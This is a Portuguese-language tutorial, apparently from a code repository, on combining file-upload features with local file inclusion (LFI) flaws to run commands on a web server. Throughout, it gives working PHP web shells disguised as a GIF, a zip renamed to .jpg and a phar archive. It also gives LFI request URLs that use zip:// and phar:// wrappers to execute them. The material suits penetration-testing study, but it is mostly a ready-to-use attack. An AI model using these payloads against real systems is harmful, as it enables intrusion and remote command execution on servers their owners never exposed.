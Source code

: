 # Exploração de Vulnerabilidades LFI com Upload de Arquivos

## Introdução
As funcionalidades de upload de arquivos são comuns em aplicativos da web modernos, pois permitem que usuários enviem dados e personalizem seus perfis. No entanto, essa funcionalidade pode ser explorada por invasores para armazenar arquivos maliciosos no servidor e executar código remotamente, especialmente quando combinada com vulnerabilidades de inclusão de arquivos locais (LFI).

## Inclusão de Arquivo com Imagem Maliciosa

### Criação da Imagem Maliciosa
**Objetivo:** Disfarçar código malicioso em um arquivo de imagem.

**Como funciona:** Arquivos de imagem geralmente são permitidos em uploads. Ao iniciar o arquivo com bytes mágicos de imagem (ex: `GIF8` para GIFs) e inserir código PHP malicioso, podemos enganar o sistema para aceitar o upload.

**Exemplo:**
```sh
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
Explicação: A string GIF8 representa o cabeçalho de um arquivo GIF, e o código PHP embutido será executado se incluído através de uma vulnerabilidade LFI.

### Upload da Imagem
Passos:
Navegar até a página de configurações de perfil do aplicativo.
Fazer upload da imagem maliciosa (shell.gif).
Por que funciona: O sistema de upload verifica a extensão e os bytes mágicos, mas não o conteúdo completo do arquivo.
Inclusão do Arquivo Carregado
Obtenção do caminho do arquivo: Após o upload, inspecione o código fonte da página para encontrar a URL do arquivo.
**Exemplo:**
```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```
Uso da vulnerabilidade LFI: A URL do arquivo é usada para incluir e executar o código PHP embutido:
```html
http://test.com/index.php?language=./profile_images/shell.gif&cmd=id
```
Resultado: O código PHP no arquivo é executado no servidor, permitindo a execução remota de comandos.

### Uso do Wrapper Zip
Criação do Arquivo Zip
Objetivo: Esconder um script PHP malicioso dentro de um arquivo zip e renomeá-lo para uma extensão permitida (ex: .jpg).
*Como funciona:* Arquivos zip podem conter qualquer tipo de arquivo. Ao renomeá-lo para .jpg, tentamos contornar verificações de tipo de arquivo.

**Exemplo:**
```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
Upload do Arquivo Zip
Passos:
Fazer upload do arquivo shell.jpg.
Por que funciona: Alguns sistemas permitem arquivos zip, mas não verificam adequadamente o conteúdo após a renomeação.

Inclusão do Arquivo Zip
Uso da vulnerabilidade LFI com wrapper zip:

```html
http://test.com/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
Resultado: O código PHP dentro do arquivo zip é executado.

### Uso do Wrapper Phar
Criação do Arquivo Phar
Objetivo: Esconder um script PHP malicioso dentro de um arquivo phar e renomeá-lo para uma extensão permitida (ex: .jpg).

Como funciona: Arquivos phar podem embutir arquivos PHP. Ao renomeá-lo, tentamos contornar verificações de tipo de arquivo.

**Exemplo:**
```sh
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```
Compilação e renomeação:
```sh
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

## Upload do Arquivo Phar
Passos:
Navegar até a página de configurações de perfil.
Fazer upload do arquivo shell.jpg.
Por que funciona: Alguns sistemas permitem arquivos phar, mas não verificam adequadamente o conteúdo após a renomeação.

Inclusão do Arquivo Phar
Uso da vulnerabilidade LFI com wrapper phar:

```html
http://test.com/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
Resultado: O código PHP dentro do subarquivo phar é executado.

## Conclusão
Cada método explora a funcionalidade de upload de arquivos para armazenar código malicioso no servidor, que é então executado através de uma vulnerabilidade LFI. A escolha do método depende das permissões de upload do servidor e das configurações de segurança.

Método da imagem maliciosa: Mais simples e direto, utiliza imagens comuns.
Wrapper zip: Útil quando arquivos zip são permitidos, mas requerem renomeação.
Wrapper phar: Uma alternativa quando outros métodos falham, aproveitando a capacidade de arquivos phar embutirem scripts PHP.